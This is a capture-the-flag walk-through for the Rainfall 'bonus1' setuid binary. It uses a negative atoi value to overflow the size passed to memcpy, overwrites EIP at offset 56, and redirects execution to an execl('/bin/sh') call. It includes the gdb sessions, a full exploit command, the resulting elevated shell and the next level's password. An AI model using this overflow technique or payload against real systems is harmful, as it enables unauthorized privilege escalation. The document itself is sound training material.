 ## Walk-through Bonus1

### Introduction
Bonus1 is part of the Rainfall challenge series, where the goal is to escalate privileges by exploiting a vulnerable binary. This walk-through covers analyzing the binary, identifying vulnerabilities, and obtaining elevated access.

### Binary Information
The target binary is a 32-bit ELF executable with setuid permissions. This means that when executed, it runs with the privileges of its owner (bonus2), allowing for privilege escalation if exploited successfully.

### Security Checks
Checking the binary’s security protections:
```bash
bonus1@RainFall:~$ checksec --file bonus1
```
Output:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   bonus1
```
Observations:
- **No RELRO:** No read-only relocation, meaning GOT entries can be modified.
- **No stack canary:** No protection against buffer overflow.
- **NX disabled:** The stack is executable, allowing shellcode execution.
- **No PIE:** The binary is not position-independent, meaning addresses are static.

### Source Code Analysis
The binary’s decompiled source code:
```c
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv) {
    int i;
    char buffer[40];
    int n;

    n = atoi(argv[1]);
    if (n < 10) {
        memcpy(buffer, argv[2], n * 4);
        if (n == 0x574f4c46) {
            execl("/bin/sh", "sh", 0);
        }
        i = 0;
    } else {
        i = 1;
    }
    return i;
}
```

### Integer Overflow to Bypass Checks
The `atoi(argv[1])` function converts the input string to an integer. However, it does not check for overflow conditions, allowing us to pass a large negative number to bypass the `if (n < 10)` check.

Example:
```bash
gdb-peda$ r -2147483647 helllo
gdb-peda$ p/d $ecx
$1 = 4
```
This causes `n * 4` to wrap around due to integer overflow, allowing `memcpy` to copy excessive data into the buffer.

Using `gdb-peda` to determine the correct value to achieve buffer overflow:
```bash
gdb-peda$ r -2147483633 hello
gdb-peda$ p/d $ecx
$1 = 60
```
This means we need to provide `-2147483633` as the first argument to trigger the buffer overflow with a size of **60 bytes**.

### Finding the Overflow Offset
The vulnerability exists in:
```c
memcpy(buffer, argv[2], n * 4);
```
- `buffer` is 40 bytes.
- The program does not validate `n * 4`, leading to buffer overflow.
- We control `n` from `argv[1]` and `buffer` from `argv[2]`.

Using `gdb-peda` to determine the overflow point:
```bash
gdb-peda$ cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
gdb-peda$ r -2147483633 aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
EIP: 0x6161616f ('oaaa')

gdb-peda$ cyclic -l 0x6161616f
56
```
The EIP offset is **56**.

### Exploitation Strategy
- Overflow the buffer to overwrite EIP with the address of `execl("/bin/sh", "sh", 0);`.
- The function call at address `0x08048482` executes `/bin/sh`.

### Finding the Target Function Address
Disassembling `main()`:
```bash
gdb-peda$ disassemble main
Dump of assembler code for function main:
   0x08048424 <+0>:     push   ebp
   0x08048425 <+1>:     mov    ebp,esp
   0x08048427 <+3>:     and    esp,0xfffffff0
   0x0804842a <+6>:     sub    esp,0x40
   0x0804842d <+9>:     mov    eax,DWORD PTR [ebp+0xc]
   0x08048430 <+12>:    add    eax,0x4
   0x08048433 <+15>:    mov    eax,DWORD PTR [eax]
   0x08048435 <+17>:    mov    DWORD PTR [esp],eax
   0x08048438 <+20>:    call   0x8048360 <atoi@plt>
   0x0804843d <+25>:    mov    DWORD PTR [esp+0x3c],eax
   0x08048441 <+29>:    cmp    DWORD PTR [esp+0x3c],0x9
   0x08048446 <+34>:    jle    0x804844f <main+43>
   0x08048448 <+36>:    mov    eax,0x1
   0x0804844d <+41>:    jmp    0x80484a3 <main+127>
   0x0804844f <+43>:    mov    eax,DWORD PTR [esp+0x3c]
   0x08048453 <+47>:    lea    ecx,[eax*4+0x0]
=> 0x0804845a <+54>:    mov    eax,DWORD PTR [ebp+0xc]
   0x0804845d <+57>:    add    eax,0x8
   0x08048460 <+60>:    mov    eax,DWORD PTR [eax]
   0x08048462 <+62>:    mov    edx,eax
   0x08048464 <+64>:    lea    eax,[esp+0x14]
   0x08048468 <+68>:    mov    DWORD PTR [esp+0x8],ecx
   0x0804846c <+72>:    mov    DWORD PTR [esp+0x4],edx
   0x08048470 <+76>:    mov    DWORD PTR [esp],eax
   0x08048473 <+79>:    call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:    cmp    DWORD PTR [esp+0x3c],0x574f4c46
   0x08048480 <+92>:    jne    0x804849e <main+122>
   0x08048482 <+94>:    mov    DWORD PTR [esp+0x8],0x0
   0x0804848a <+102>:   mov    DWORD PTR [esp+0x4],0x8048580
   0x08048492 <+110>:   mov    DWORD PTR [esp],0x8048583
   0x08048499 <+117>:   call   0x8048350 <execl@plt>
   0x0804849e <+122>:   mov    eax,0x0
   0x080484a3 <+127>:   leave
   0x080484a4 <+128>:   ret
End of assembler dump.
```
Identified `execl("/bin/sh")` call at **0x08048482**.

### Gaining Access
Exploit payload:
```bash
bonus1@RainFall:~$ ./bonus1 -2147483633 `python2 -c "print 'A'*56 + '\x82\x84\x04\x08'"`
```
After executing, a shell is spawned:
```bash
$ id
uid=2011(bonus1) gid=2011(bonus1) euid=2012(bonus2) egid=100(users) groups=2012(bonus2),100(users),2011(bonus1)
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
### Mitigation Strategies
To prevent exploitation:
- **Enable stack canaries** to detect buffer overflows.
- **Implement bounds checking** on user input.
- **Enable ASLR and NX bit** to prevent predictable memory layouts and execution of injected shellcode.

### Conclusion
This challenge demonstrates classic buffer overflow exploitation by overwriting EIP to redirect execution. Understanding binary protections and manual debugging in GDB are crucial for developing exploitation skills.


